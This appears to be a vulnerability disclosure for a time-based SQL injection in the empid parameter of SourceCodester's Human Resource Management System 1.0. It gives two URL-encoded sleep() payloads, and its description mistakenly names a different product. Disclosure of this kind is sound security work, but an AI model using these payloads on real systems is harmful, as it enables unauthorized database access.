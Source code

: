 # Human Resource Management System 1.0 SQL Injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A SQL Injection vulnerability in /hrm/employeeadd.php with `empid` handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

Proof of Concept:

Login as admin and go to `http://localhost/hrm/employeeadd.php`

Payload SQLi with sleep(1): /hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-

![](images/sqli-sleep-1.png)

Payload SQLi with sleep(10): /hrm/employeeadd.php?empid=1%27%20or%20sleep(10)%20--%20-

![](images/sqli-sleep-10.png)

Check payload at MySQL log:

![](images/mysql-log.png)